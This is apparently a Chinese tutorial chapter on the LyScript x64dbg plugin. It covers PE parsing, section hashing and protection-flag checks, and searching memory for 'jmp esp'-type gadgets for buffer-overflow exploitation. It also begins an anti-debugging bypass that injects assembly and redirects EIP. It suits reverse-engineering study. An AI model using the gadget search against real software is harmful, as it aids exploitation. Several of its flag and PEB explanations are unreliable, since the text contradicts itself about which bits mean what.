至此本章基本介绍就到此为止，本章介绍了在`Windows`平台中使用`LyScript`插件进行反汇编和调试的相关内容。首先介绍了`LyScript`插件的基本功能和使用方法，如通过不同的命令进行反汇编、查看汇编代码、设置断点等。并结合具体案例，演示了如何在`LyScript`中使用不同的命令进行程序反汇编和调试。同时，还介绍了调试器中常用的断点类型及其功能，并以`x64dbg`为例对堆栈窗口的功能进行详细介绍。读者如果需要了解更多关于`LyScript`插件的使用手册可自行去官方查阅。

### 4.2 针对PE文件的扫描

通过运用`LyScript`插件并配合`pefile`模块，即可实现对特定PE文件的扫描功能，例如载入PE程序到内存，验证PE启用的保护方式，计算PE节区内存特征，文件FOA与内存VA转换等功能的实现，首先简单介绍一下`pefile`模块。

pefile模块是一个用于解析Windows可执行文件（PE文件）的Python模块，它可以从PE文件中提取出文件头、节表、导入表、导出表、资源表等信息，也可以修改PE文件的一些属性。可以用于分析针对Windows平台的恶意软件、编写自己的PE文件修改工具等场景。

使用pefile模块可以快速方便地定位到PE文件的一些关键信息，例如程序入口点、程序头、代码的开始和结束位置等，在基于PE文件进行逆向分析和开发中非常有用。在Python中使用pefile模块也非常简单，通过导入模块和加载PE文件后就可以轻松获取和修改PE文件的各种属性了。

#### 4.2.1 获取PE结构内存节表

在读者使用`LyScript`扫描进程PE结构之前，请读者自行执行`pip install pefile`将pefile模块安装到系统中，接着我们开始实现第一个功能，将PE可执行文件中的内存数据通过PEfile模块打开并读入内存，实现PE参数解析。

此功能的核心实现原理，通过`get_local_base()`得到`text`节的基址，然后再通过`get_base_from_address()`函数得到text节得到程序的首地址，通过`read_memory_byte`依次读入数据到内存中，最后使用`pefile.PE`解析为PE结构，其功能如下所示：

 - 1.使用`MyDebug`模块创建并初始化`dbg`对象，连接调试环境。
 - 2.调用`dbg.get_local_base()`获取调试程序的基地址，将其赋值给`local_base`变量。
 - 3.调用`dbg.get_base_from_address(local_base)`将调试器地址转换为程序入口地址，将转换后的地址赋值给`base`变量。
 - 4.使用循环遍历方式读取调试程序首地址处的`4096`字节数据并存储到`byte_array`字节数组中。
 - 5.使用`pefile`模块创建一个PE文件对象`oPE`，并将`byte_array`作为数据源传入。
 - 6.最后使用`dump_dict()`方法从PE文件对象中提取出可选头信息并打印输出`timedate`变量。

具体的实现细节可以总结为如下代码形式；
```Python
from LyScript32 import MyDebug
import pefile

if __name__ == "__main__":
    # 初始化
    dbg = MyDebug()
    dbg.connect()

    # 得到text节基地址
    local_base = dbg.get_local_base()

    # 根据text节得到程序首地址
    base = dbg.get_base_from_address(local_base)

    byte_array = bytearray()
    for index in range(0,4096):
        read_byte = dbg.read_memory_byte(base + index)
        byte_array.append(read_byte)

    oPE = pefile.PE(data = byte_array)
    timedate = oPE.OPTIONAL_HEADER.dump_dict()
    print(timedate)
```

保存并运行这段代码，读者可以看到如下所示的输出效果；



总体上，这段代码的作用是利用调试器将调试程序的首地址处的4096字节读入内存，然后使用pefile模块将其解析为PE文件，最后输出PE文件的可选头信息。该代码可以用于在调试过程中对调试程序的PE文件进行逆向分析和研究。

接着我们继续向下解析，通常读者可通过`oPE.sections`获取到当前进程的完整节数据，如下通过`LyScirpt`模块配合`PEFile`模块解析内存镜像中的`section`节表属性，其完整代码如下所示；
```Python
from LyScript32 import MyDebug
import pefile

if __name__ == "__main__":
    # 初始化
    dbg = MyDebug()
    dbg.connect()

    # 得到text节基地址
    local_base = dbg.get_local_base()

    # 根据text节得到程序首地址
    base = dbg.get_base_from_address(local_base)

    byte_array = bytearray()
    for index in range(0,8192):
        read_byte = dbg.read_memory_byte(base + index)
        byte_array.append(read_byte)

    oPE = pefile.PE(data = byte_array)

    for section in oPE.sections:
        print("%10s %10x %10x %10x" 
    %(section.Name.decode("utf-8"), section.VirtualAddress, 
    section.Misc_VirtualSize, section.SizeOfRawData))
    dbg.close()
```
读者可自行运行这段代码片段，则会看到当前被加载进程中内存节表的完整输出，这段代码输出效果如下图所示；



#### 4.2.2 计算节表内存Hash散列值

接着我们继续再进一步，实现计算PE节表Hash散列值，Hash函数的计算常用于病毒木马特征值的标记，通过对特定文件进行散列值生成，即可得知该文件的版本，从而实现快速锁定源文件的目的。

> 什么是Hash散列值

哈希散列值通常被用作数字签名、数据完整性验证、消息认证等等领域，它可以根据数据的内容计算出一个固定长度的值（通常是16到64字节），并且在数据被篡改的情况下会生成不同的散列值，因此可以用来在不传输原数据的情况下验证数据的完整性。

例如，我们可以使用MD5哈希函数对一个文件进行哈希计算，得到一个128位的哈希散列值，将其与原始文件共同存储在另一个不同的地方。当我们需要验证此文件是否被篡改时，只需要重新对文件进行哈希计算，得到一个新的散列值，并将其与原来存储的散列值进行比对，如果两个值相同，就可以确定文件未被篡改。

> 什么是Hash散列函数

哈希散列函数，也叫哈希函数，是一种将任意长度的消息映射到固定长度的散列值的函数。它通常是通过执行一系列算法将输入数据转换为一个固定大小的二进制数据而实现的。

哈希散列函数是密码学中的重要工具之一，它具有不可逆性、单向性（难以从散列值反推源数据）、抗碰撞性（不同的源数据计算出来的散列值相等的概率很小）等特性，广泛应用于数据加密、身份认证、数字签名等领域。

常见的哈希散列函数有MD5、SHA-1、SHA-2、SHA-3等，其中SHA-2是应用最广泛的哈希函数之一，在许多加密协议和安全标准中被广泛使用。虽然哈希函数具有不可逆性，但是由于计算能力的不断提高，一些强大的计算能力可以被用来破解哈希函数，因此选择合适的哈希函数也非常重要。

我们以`MD5`以及`CRC32`为例，如果读者需要计算程序中每个节的散列值，则需通过`dbg.get_section()`函数动态获取到所有程序中的节，并取出`addr,name,size`三个字段，通过封装的`md5()`以及`crc32`等函数完成计算并输出，这段代码的核心实现流程如下所示；
```Python
import binascii
import hashlib
from LyScript32 import MyDebug

def crc32(data):
    return "0x{:X}".format(binascii.crc32(data) & 0xffffffff)

def md5(data):
    md5 = hashlib.md5(data)
    return md5.hexdigest()

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    # 循环节
    section = dbg.get_section()
    for index in section:
        # 定义字节数组
        mem_byte = bytearray()

        address = index.get("addr")
        section_name = index.get("name")
        section_size = index.get("size")

        # 读出节内的所有数据
        for item in range(0,int(section_size)):
            mem_byte.append( dbg.read_memory_byte(address + item))

        # 开始计算特征码
        md5_sum = md5(mem_byte)
        crc32_sum = crc32(mem_byte)

        print("[*] 节名: {:10s} | 节长度: {:10d} | MD5特征: {} | CRC32特征: {}"
              .format(section_name,section_size,md5_sum,crc32_sum))

    dbg.close()
```

运行后等待片刻，读者应该可以看到如下图所示的输出结果，图中每一个节的散列值都被计算出来；



#### 4.2.3 验证PE启用的保护模式

PE文件的保护模式包括了、随机基址（Address space layout randomization，ASLR）、数据不可执行（Data Execution Prevention，DEP）、强制完整性（Forced Integrity，FCI）这四种安全保护机制，它们的主要作用是防止恶意软件攻击，并提高系统的安全性和可靠性。

> 1.随机基址（Address space layout randomization，ASLR）

随机基址是一种Windows操作系统中的内存防护机制，它可以使恶意软件难以通过内存地址预测来攻击应用程序。在随机基址机制下，操作系统会随机改变应用程序的地址空间布局，使得每次运行时程序在内存中加载的地址不同，从而防止攻击者凭借对程序内存地址的猜测或破解来攻击程序。

随机基址的验证方式是定位到PE结构的`pe.OPTIONAL_HEADER.DllCharacteristics`并对PE文件的`OPTIONAL_HEADER`中的`DllCharacteristics`属性进行取值位运算操作并以此作为判断的依据：

 - 首先，使用`hex()`将`pe.OPTIONAL_HEADER.DllCharacteristics`转换为16进制字符串。
 - 然后，将该16进制字符串和`0x40`进行按位与运算。
 - 最后，将得到的结果与`0x40`进行比较。

根据微软的文档，`pe.OPTIONAL_HEADER.DllCharacteristics`是一个32位的掩码属性，用于描述PE文件的一些特性。其中`DllCharacteristics`的第7位（从0开始）表示该文件是否启用了`ASLR（Address Space Layout Randomization）`特性，如果启用，则对应值为0x40。因此，上述代码的作用是判断该PE文件是否启用了`ASLR`特性。如果结果为真，则说明该文件启用了`ASLR`；否则，说明该文件未启用ASLR。

> 数据不可执行（Data Execution Prevention，DEP）

数据不可执行是一种Windows操作系统中的内存防护机制，它可以防止恶意软件针对系统内存中的数据进行攻击。在DEP机制下，操作系统会将内存分为可执行和不可执行两部分，其中不可执行部分主要用于存放程序数据，而可执行部分用于存放代码。这样当程序试图执行不可执行的数据时，操作系统会立即终止程序，从而防止攻击者通过操纵程序数据来攻击系统。

同样使用位运算符&，对PE文件的`OPTIONAL_HEADER`中的`DllCharacteristics`属性进行了取值并进行了位运算操作。该代码的具体意义为：

 - 首先，使用hex()将`pe.OPTIONAL_HEADER.DllCharacteristics`转换为16进制字符串。
 - 然后，将该16进制字符串和`0x100`进行按位与运算。
 - 最后，将得到的结果与`0x100`进行比较。

根据微软的文档，`pe.OPTIONAL_HEADER.DllCharacteristics`是一个32位的掩码属性，用于描述PE文件的一些特性。其中，`DllCharacteristics`的第8位（从0开始）表示该文件是否启用了NX特性`（No eXecute）`，如果启用，则对应值为`0x100`。NX特性是一种内存保护机制，可以防止恶意代码通过将数据区域当作代码区域来执行代码，提高了系统的安全性。因此，上述代码的作用是判断该PE文件是否启用了NX特性。如果结果为真，则说明该文件启用了NX特性；否则，说明该文件未启用NX特性。

> 强制完整性（Forced Integrity，FCI）

强制完整性是一种Windows操作系统中的强制措施，它可以防止恶意软件通过DLL注入来攻击系统。在FCI机制下，操作系统会通过数字签名和其他校验措施对系统DLL和其他关键文件进行验证，确保这些文件没有被修改或替换。如果检测到文件已被修改或替换，操作系统将会拒绝这些文件并终止相关进程，这样可以保护系统的完整性和安全性。

同样使用位运算符&，对PE文件的`OPTIONAL_HEADER`中的`DllCharacteristics`属性进行了取值并进行了位运算操作。该代码的具体意义为：

 - 首先，使用hex()将`pe.OPTIONAL_HEADER.DllCharacteristics`转换为16进制字符串。
 - 然后，将该16进制字符串和0x80进行按位与运算。
 - 最后，将得到的结果与0x80进行比较。

根据微软的文档，`pe.OPTIONAL_HEADER.DllCharacteristics`是一个32位的掩码属性，用于描述PE文件的一些特性。其中，`DllCharacteristics`的第7位（从0开始）表示该文件是否启用了动态基址特性`（Dynamic Base）`，如果启用，则对应值为`0x40`。动态基址特性与ASLR（Address Space Layout Randomization）功能是紧密相关的，当启用ASLR时，动态基址特性也会被自动启用。因此，上述代码的作用是判断该PE文件是否启用了动态基址特性。如果结果为真，则说明该文件启用了动态基址特性；否则，说明该文件未启用动态基址特性。

根据如上描述，要想实现检查进程内所有模块的保护方式，则首先要通过`dbg.get_all_module()`获取到进程的所有模块信息，当模块信息被读入后，通过`dbg.read_memory_byte()`获取到该内存的机器码，并通过`pefile.PE(data=byte_array)`装载到内存，通过对不同数值与与运算即可判定是否开启了保护。

 - 随机基址 hex(pe.OPTIONAL_HEADER.DllCharacteristics) & 0x40 == 0x40
 - 数据不可执行 hex(pe.OPTIONAL_HEADER.DllCharacteristics) & 0x100 == 0x100
 - 强制完整性 hex(pe.OPTIONAL_HEADER.DllCharacteristics) & 0x80 == 0x80

那么根据如上描述，这段核心代码可以总结为如下案例；
```Python
from LyScript32 import MyDebug
import pefile

if __name__ == "__main__":
    # 初始化
    dbg = MyDebug()
    dbg.connect()

    # 得到所有加载过的模块
    module_list = dbg.get_all_module()

    print("-" * 100)
    print("模块名 \t\t\t 基址随机化 \t\t DEP保护 \t\t 强制完整性 \t\t SEH异常保护 \t\t")
    print("-" * 100)

    for module_index in module_list:
        print("{:15}\t\t".format(module_index.get("name")),end="")

        # 依次读入程序所载入的模块
        byte_array = bytearray()
        for index in range(0, 4096):
            read_byte = dbg.read_memory_byte(module_index.get("base") + index)
            byte_array.append(read_byte)

        oPE = pefile.PE(data=byte_array)

        # 随机基址 => hex(pe.OPTIONAL_HEADER.DllCharacteristics) & 0x40 == 0x40
        if ((oPE.OPTIONAL_HEADER.DllCharacteristics & 64) == 64):
            print("True\t\t\t",end="")
        else:
            print("False\t\t\t",end="")
        # 数据不可执行 DEP => hex(pe.OPTIONAL_HEADER.DllCharacteristics) & 0x100 == 0x100
        if ((oPE.OPTIONAL_HEADER.DllCharacteristics & 256) == 256):
            print("True\t\t\t",end="")
        else:
            print("False\t\t\t",end="")
        # 强制完整性=> hex(pe.OPTIONAL_HEADER.DllCharacteristics) & 0x80 == 0x80
        if ((oPE.OPTIONAL_HEADER.DllCharacteristics & 128) == 128):
            print("True\t\t\t",end="")
        else:
            print("False\t\t\t",end="")
        if ((oPE.OPTIONAL_HEADER.DllCharacteristics & 1024) == 1024):
            print("True\t\t\t",end="")
        else:
            print("False\t\t\t",end="")
        print()
    dbg.close()
```

读者可以运行这段案例，即可看到如下图所示的输出效果；



#### 4.2.4 PE结构的FOA/VA/RAV转换

在PE文件结构中，VA、RVA和FOA都是用来描述内存中数据的位置和在文件中的偏移量，具体含义如下：

 - VA（Virtual Address）：虚拟地址，也叫映像地址，是指在内存中的地址。VA通常是程序运行时要访问的地址，由操作系统进行地址转换映射到物理地址上。
 - RVA（Relative Virtual Address）：相对虚拟地址，是指当前位置相对于所在塞段的起始地址的偏移量。RVA通常是用于描述PE文件中的各个段的相对位置，它不像VA一样是用于真正运行程序的，而是在加载 PE 文件时进行重定位所使用的。
 - FOA（File Offset Address）：文件偏移量，是指在文件中的偏移量，也就是从文件起始位置到数据的偏移量。FOA通常是用于描述PE文件中的各个段和头信息在文件中的位置，可以用来定位和修改文件中的数据。

需要注意的是，这三种地址是不同的，其值也不同。VA和RVA通常是在Windows操作系统中使用；FOA通常是在PE文件处理时使用。在PE文件加载时，Windows操作系统会将RVA转换为VA，将程序的段加载到内存中，并根据需要对其进行重定位（如果代码中包含有绝对地址的话），然后将控制权交给程序的入口点，程序进入执行状态。

首先实现`VA转为FOA`的案例，在这段核心代码中，通过`dbg.get_base_from_address(dbg.get_local_base())`获取到内存中的程序基地址，并与VA地址相减得到内存中的RVA地址，并调用PEfile库中的`get_offset_from_rva`完成转换。
```Python
def get_offset_from_va(pe_ptr, va_address):
    # 得到内存中的程序基地址
    memory_image_base = dbg.get_base_from_address(dbg.get_local_base())

    # 与VA地址相减得到内存中的RVA地址
    memory_local_rva = va_address - memory_image_base

    # 根据RVA得到文件内的FOA偏移地址
    foa = pe_ptr.get_offset_from_rva(memory_local_rva)
    return foa
```
其次是`将FOA文件偏移转为VA`虚拟地址，此类代码与上方代码基本一致，通过`pe_ptr.get_rva_from_offset`先得到RVA相对偏移，然后在通过`dbg.get_base_from_address(dbg.get_local_base())`得到内存中程序基地址，然后计算VA地址，最后直接计算得到VA地址。
```Python
def get_va_from_foa(pe_ptr, foa_address):
    # 先得到RVA相对偏移
    rva = pe_ptr.get_rva_from_offset(foa_address)

    # 得到内存中程序基地址,然后计算VA地址
    memory_image_base = dbg.get_base_from_address(dbg.get_local_base())
    va = memory_image_base + rva
    return va
```
最后一种则是将`FOA文件偏移地址转为RVA`相对地址，此类代码中通过枚举所有节中的参数，并以此动态计算出实际的RVA地址返回。
```Python
# 传入一个FOA文件地址转为RVA地址
def get_rva_from_foa(pe_ptr, foa_address):
    sections = [s for s in pe_ptr.sections if s.contains_offset(foa_address)]
    if sections:
        section = sections[0]
        return (foa_address - section.PointerToRawData) + section.VirtualAddress
    else:
        return 0
```
最终将三段代码整合在一起，即可构成一个互相转换的案例，至于PE结构的解析问题，详细度过PE结构篇的你不需要我做太多的解释了。
```Python
from LyScript32 import MyDebug
import pefile

# 传入一个VA值获取到FOA文件地址
def get_offset_from_va(pe_ptr, va_address):
    # 得到内存中的程序基地址
    memory_image_base = dbg.get_base_from_address(dbg.get_local_base())

    # 与VA地址相减得到内存中的RVA地址
    memory_local_rva = va_address - memory_image_base

    # 根据RVA得到文件内的FOA偏移地址
    foa = pe_ptr.get_offset_from_rva(memory_local_rva)
    return foa

# 传入一个FOA文件地址得到VA虚拟地址
def get_va_from_foa(pe_ptr, foa_address):
    # 先得到RVA相对偏移
    rva = pe_ptr.get_rva_from_offset(foa_address)

    # 得到内存中程序基地址,然后计算VA地址
    memory_image_base = dbg.get_base_from_address(dbg.get_local_base())
    va = memory_image_base + rva
    return va

# 传入一个FOA文件地址转为RVA地址
def get_rva_from_foa(pe_ptr, foa_address):
    sections = [s for s in pe_ptr.sections if s.contains_offset(foa_address)]
    if sections:
        section = sections[0]
        return (foa_address - section.PointerToRawData) + section.VirtualAddress
    else:
        return 0

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    # 载入文件PE
    pe = pefile.PE(name=dbg.get_local_module_path())

    # 读取文件中的地址
    rva = pe.OPTIONAL_HEADER.AddressOfEntryPoint
    va = pe.OPTIONAL_HEADER.ImageBase + pe.OPTIONAL_HEADER.AddressOfEntryPoint
    foa = pe.get_offset_from_rva(pe.OPTIONAL_HEADER.AddressOfEntryPoint)
    print("文件VA地址: {} 文件FOA地址: {} 从文件获取RVA地址: {}".format(hex(va), foa, hex(rva)))

    # 将VA虚拟地址转为FOA文件偏移
    eip = dbg.get_register("eip")
    foa = get_offset_from_va(pe, eip)
    print("虚拟地址: 0x{:x} 对应文件偏移: {}".format(eip, foa))

    # 将FOA文件偏移转为VA虚拟地址
    va = get_va_from_foa(pe, foa)
    print("文件地址: {} 对应虚拟地址: 0x{:x}".format(foa, va))

    # 将FOA文件偏移地址转为RVA相对地址
    rva = get_rva_from_foa(pe, foa)
    print("文件地址: {} 对应的RVA相对地址: 0x{:x}".format(foa, rva))

    dbg.close()
```

如上代码中所传递地址必须保证是正确的，否则会报错，读者应根据自己的需求选择对应的函数来执行，代码运行后输出效果如下图所示；



#### 4.2.5 PE结构检索SafeSEH内存地址

SafeSEH（Safe Structured Exception Handling）是Windows操作系统提供的一种安全保护机制，用于防止恶意软件利用缓冲区溢出漏洞来攻击应用程序。

当应用程序使用结构化异常处理机制（SEH）时，其异常处理链表（ExceptionHandler链表）可以被攻击者用来执行代码注入攻击。这是由于异常处理链表本质上是一个指针数组，如果应用程序使用了未经验证的指针指向异常处理函数，则攻击者可以构造恶意的异常处理模块来覆盖原有的处理程序，从而迫使程序执行攻击者注入的代码。这种攻击技术被称为SEH注入（SEH Overwrite）。

为了解决这个问题，SafeSEH机制被引入到Windows操作系统中。其主要思想是在应用程序的导入表中加入了一个SafeSEH表，用于存储由编译器生成的SEH处理函数的地址列表。在程序执行时，Windows操作系统将检查程序SEH链表中的指针是否存在SafeSEH表中。如果该指针不存在于SafeSEH表中，则Windows操作系统将终止应用程序的执行。SafeSEH机制可以提高系统的安全性和可靠性，防止恶意软件利用缓冲区溢出和SEH注入等漏洞来攻击应用程序。

SafeSEH的检索问题，读者可依据如下步骤依次实现；

 - 1.初始化调试器dbg，并执行dbg.connect()连接到正在运行的进程。
 - 2.memory_image_base = dbg.get_base_from_address(dbg.get_local_base())：获取程序内存镜像的基地址。
 - 3.peoffset = dbg.read_memory_dword(memory_image_base + int(0x3c))：通过PE头的偏移地址得到PE头的基地址。
 - 4.flags = dbg.read_memory_word(pebase + int(0x5e))：读取PE头中的DllCharacteristics属性的值，使用了read_memory_word函数，该值用于判断是否开启了SafeSEH保护。
 - 5.如果flags值的第10位（即0x400）为1，则说明该程序已开启了SafeSEH保护，并输出保护状态为“NoHandler”；否则不打印状态信息。
 - 6.numberofentries = dbg.read_memory_dword(pebase + int(0x74))：读取PE头中的NumberOfRvaAndSizes属性的值，该值用来描述数据目录表中的项目个数。
 - 7.如果numberofentries值大于10，则说明该PE文件结构异常，退出程序。
 - 8.sectionaddress和sectionsize用于指定程序头表中第10个PE节的地址和大小。如果第10个节大小不为0且为0x40或与第一个DWORD和第二个DWORD的值相等，则说明该程序在节表中找到了SafeSEH记录。
 - 9.sehlistaddress和sehlistsize指定`SafeSEH`记录列表的地址和大小。如果`sehlistaddress`不为0且`sehlistsize`不为0，则说明该程序启用了`SafeSEH`保护，并输出保护状态。
 - 10.如果condition等于False，则说明PE结构不符合要求或未启用SafeSEH保护。如果data小于0x48，则说明该DLL或EXE程序无法被识别。如果sehlistaddress和sehlistsize不同时等于零，则打印SafeSEH保护中的长度。

查找`SafeSEH`内存地址，读入PE文件到内存，验证该程序的SEH保护是否开启，如果开启则尝试输出SEH内存地址，其实现代码可总结为如下案例；
```Python
from LyScript32 import MyDebug
import struct

LOG_HANDLERS = True

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    # 得到PE头部基地址
    memory_image_base = dbg.get_base_from_address(dbg.get_local_base())

    peoffset = dbg.read_memory_dword(memory_image_base + int(0x3c))
    pebase = memory_image_base + peoffset

    flags = dbg.read_memory_word(pebase + int(0x5e))
    if(flags & int(0x400)) != 0:
        print("SafeSEH | NoHandler")

    numberofentries = dbg.read_memory_dword(pebase + int(0x74))
    if numberofentries > 10:

        # 读取 pebase+int(0x78)+8*10 | pebase+int(0x78)+8*10+4  读取八字节,分成两部分读取
        sectionaddress, sectionsize = [dbg.read_memory_dword(pebase+int(0x78)+8*10),
                                       dbg.read_memory_dword(pebase+int(0x78)+8*10 + 4)
                                       ]
        sectionaddress += memory_image_base
        data = dbg.read_memory_dword(sectionaddress)
        condition = (sectionsize != 0) and ((sectionsize == int(0x40)) or (sectionsize == data))

        if condition == False:
            print("[-] SafeSEH 无保护")
        if data < int(0x48):
            print("[-] 无法识别的DLL/EXE程序")

        sehlistaddress, sehlistsize = [dbg.read_memory_dword(sectionaddress+int(0x40)),
                                       dbg.read_memory_dword(sectionaddress+int(0x40) + 4)
                                       ]
        if sehlistaddress != 0 and sehlistsize != 0:
            print("[+] SafeSEH 保护中 | 长度: {}".format(sehlistsize))
            if LOG_HANDLERS == True:
                for i in range(sehlistsize):
                    sehaddress = dbg.read_memory_dword(sehlistaddress + 4 * i)
                    sehaddress += memory_image_base
                    print("SEHAddress = {}".format(hex(sehaddress)))

    dbg.close()
```

运行这段代码，则可输出当前进程内所有启用`SafeSEH`的内存地址空间，如下图所示；



### 4.3 搜索内存可利用指令

发现漏洞的第一步则是需要寻找到可利用的反汇编指令片段，在某些时候远程缓冲区溢出需要通过类似于`jmp esp`等特定的反汇编指令实现跳转功能，并以此来执行布置好的`ShellCode`恶意代码片段，`LyScript`插件则可以很好的完成对当前进程内存中特定函数的检索工作。

一般而言远程缓冲区溢出攻击通常利用的是一些具有缓冲区溢出漏洞的函数或是特定的汇编指令片段，如：

 - strcpy：该函数将一个字符串复制到另一个字符串缓冲区中，但不会检查缓冲区的大小，因此很容易导致缓冲区溢出。
 - gets：该函数将用户输入的数据读入字符串缓冲区中，但不会检查缓冲区的大小，因此很容易导致缓冲区溢出。
 - sprintf：该函数将一个字符串格式化到字符串缓冲区中，但不会检查缓冲区的大小，因此很容易导致缓冲区溢出。

在远程缓冲区溢出攻击中，攻击者也可以利用汇编指令`jmp esp`来实现对攻击代码的执行。该指令允许攻击者跳转到堆栈中的任意位置，并从那里执行恶意代码。

#### 4.3.1 搜索可利用汇编指令集

在默认情况下，LyScript插件并不具备搜索连续指令的能力，虽然提供了`get_disasm_code()`系列的反汇编函数，但此类函数通常仅仅只能实现简单的反汇编功能，读者如果需要实现其他附加功能，含需要自行动手去实现，首先我们自行实现一个简单的汇编指令检索功能，用于寻找可利用的指令片段`"pop esp","jmp esp","jmp eax","pop ecx"`等指令集。

这段代码实现的机制可总结为如下步骤；

 - 1.调用`connect`函数来连接到要调试的程序，并使用`get_local_base`和`get_local_size`函数获取程序的内存范围。
 - 2.定义一个名为`search_asm`的列表，该列表包含要搜索的汇编指令。
 - 3.使用一个`while`循环来遍历内存范围中的每一个地址，并调用`get_disasm_one_code`函数获取该地址处的反汇编代码。
 - 4.使用另一个for循环来遍历`search_asm`列表中的每一个指令，并检查当前反汇编代码是否与列表中的指令匹配。如果匹配，则输出该地址和反汇编代码。

代码很容易被理解和实现，本质上仅仅只是提取所内存中所有的汇编指令集，并依次枚举对比是否符合列表中的条件，其最终实现代码如下所示；
```Python
from LyScript32 import MyDebug

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    local_base_start = dbg.get_local_base()
    local_base_end = local_base_start + dbg.get_local_size()
    print("开始地址: {} --> 结束地址: {}".format(hex(local_base_start),hex(local_base_end)))

    search_asm = ["pop esp","jmp esp","jmp eax","pop ecx"]

    while local_base_start <= local_base_end:
        disasm = dbg.get_disasm_one_code(local_base_start)
        # print("地址: 0x{:08x} --> 反汇编: {}".format(local_base_start,disasm))

        # 寻找指令
        for index in range(0, len(search_asm)):
            if disasm == search_asm[index]:
                print("地址: {} --> 反汇编: {}".format(hex(local_base_start), disasm))

        # 递增计数器
        local_base_start = local_base_start + dbg.get_disasm_operand_size(local_base_start)

    dbg.close()
```

如上代码被运行后，则会输出当前进程内所有可被利用的指令片段，其输出效果图如下图所示；



#### 4.3.2 搜索可利用机器码

机器码的搜索与汇编指令集的搜索方式基本保持一致，但庆幸的是搜索指令集可使用`scan_memory_all()`这个官方函数，该函数可用于扫描当前EIP所处位置，也就是当前EIP所在模块的所有符合条件的机器码，需要注意的是，在搜索具有漏洞函数时，通常我们会搜索进程内的完整模块，则此时应该先得到该模块的入口地址，并通过`set_register()`设置到该模块所在内存，然后再次对该内存区域进行搜索，代码中`opcode`用于指定一段机器码序列，此处读者可指定搜索多种机器码，并将搜索结果放入到该列表内进行存储。

这段代码的实现原理可总结为如下所示的步骤；

 - 定义一个名为`opcode`的列表，该列表包含要搜索的机器码。
 - 然后使用一个for循环来遍历每个模块，并调用`get_all_module`函数获取程序中的模块列表。对于每个模块，它将eip寄存器设置为该模块的入口点，然后调用`scan_memory_all`函数搜索该模块中是否存在要搜索的机器码。
 - 如果找到了指定的机器码，则输出模块名称、匹配个数以及机器码，并输出该机器码所在的地址。

根据上述流程可总结为如下所示的代码片段；
```Python
from LyScript32 import MyDebug
import time

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    # 需要搜索的指令集片段
    opcode = ['ff 25','ff 55 fc','8b fe']

    # 循环搜索指令集内存地址
    for index,entry in zip(range(0,len(opcode)), dbg.get_all_module()):
        eip = entry.get("entry")
        base_name = entry.get("name")
        if eip != 0:
            dbg.set_register("eip",eip)
            search_address = dbg.scan_memory_all(opcode[index])

            if search_address != False:
                print("搜索模块: {} --> 匹配个数: {} --> 机器码: {}"
            .format(base_name,len(search_address),opcode[index]))
                # 输出地址
                for search_index in search_address:
                    print("[*] {}".format(hex(search_index)))

        time.sleep(0.3)
    dbg.close()
```

以`strcpy`函数为例，读者只需要搜索特征`['57 8b 7c 24 08 eb 6e','ff 55 fc','8b fe']`即可定位到当前模块内所有调用该函数机器其他函数的内存地址。



运行后即可输出当前模块内所有被调用机器码的详细地址，输出效果如下图所示；



### 4.4 绕过反调试保护机制

在Windows平台下，应用程序为了保护自己不被调试器调试会通过各种方法限制进程调试自身，通常此类反调试技术会限制我们对其进行软件逆向与漏洞分析，下面是一些常见的反调试保护方法：

 - IsDebuggerPresent：检查当前程序是否在调试器环境下运行。
 - OutputDebugString：向调试器发送特定的字符串，以检查是否有调试器在运行。
 - CloseHandle：检查特定的句柄是否关闭，以判断是否有调试器在运行。
 - GetTickCount：检查程序运行的时间，以判断是否有调试器在运行。
 - PEB (Process Environment Block)：检查PEB数据结构中的特定字段，以判断是否有调试器在运行。
 - SEH (Structured Exception Handling)：检查异常处理程序是否被替换，以判断是否有调试器在运行。

我们以第一种`IsDebuggerPresent`反调试为例，该函数用于检查当前程序是否在调试器的环境下运行。函数返回一个布尔值，如果当前程序正在被调试，则返回True，否则返回False。

函数通过检查特定的内存地址来判断是否有调试器在运行。具体来说，该函数检查了`PEB（进程环境块）`数据结构中的`_PEB_LDR_DATA`字段，该字段标识当前程序是否处于调试状态。如果该字段的值为1，则表示当前程序正在被调试，否则表示当前程序没有被调试。

获取PEB的方式有许多，虽然LyScript插件内提供了`get_peb_address(dbg.get_process_id())`系列函数可以直接获取到进程的PEB信息，但为了分析实现原理，笔者首先会通过代码来实现这个功能；

如下代码，通过在目标程序中创建一个堆空间并向其中写入汇编指令，最后将程序的EIP寄存器设置为堆空间的首地址，以使得程序运行时执行堆空间中的汇编指令。

具体来说，该代码通过调用`MyDebug`类的`create_alloc`方法创建一个堆空间，并通过调用`assemble_at`方法向堆空间写入汇编指令。该代码先写入`mov eax,fs:[0x30]`指令，该指令将`FS寄存器`的值加上`0x30`的偏移量存入`EAX`寄存器，从而得到`_PEB`数据结构的地址。

然后，代码再写入`mov eax,[eax+0x0C]`指令，该指令将EAX寄存器加上`0x0C`的偏移量后的值存入EAX寄存器，从而得到`_PEB_LDR_DATA`数据结构的地址。最后，写入`jmp eip`指令，以使得程序回到原来的`EIP`位置。最后，代码通过调用`set_register`方法设置EIP寄存器的值为堆空间的首地址，以使得程序运行时执行堆空间中的汇编指令。
```Python
from LyScript32 import MyDebug

if __name__ == "__main__":
    dbg = MyDebug(address="127.0.0.1")
    dbg.connect()

    # 保存当前EIP
    eip = dbg.get_register("eip")

    # 创建堆
    heap_addres = dbg.create_alloc(1024)
    print("堆空间地址: {}".format(hex(heap_addres)))

    # 写出汇编指令
    # mov eax,fs:[0x30] 得到 _PEB
    dbg.assemble_at(heap_addres,"mov eax,fs:[0x30]")
    asmfs_size = dbg.get_disasm_operand_size(heap_addres)

    # 写出汇编指令
    # mov eax,[eax+0x0C] 得到 _PEB_LDR_DATA
    dbg.assemble_at(heap_addres + asmfs_size, "mov eax, [eax + 0x0C]")
    asmeax_size = dbg.get_disasm_operand_size(heap_addres + asmfs_size)

    # 跳转回EIP位置
    dbg.assemble_at(heap_addres+ asmfs_size + asmeax_size , "jmp {}".format(hex(eip)))

    # 设置EIP到堆首地址
    dbg.set_register("eip",heap_addres)

    dbg.close()
```
当这段读入汇编指令被执行时，此时`PEB入口`地址将被返回给`EAX`寄存器，用户只需要取出该寄存器中的参数即可实现读取进程`PEB`的功能。



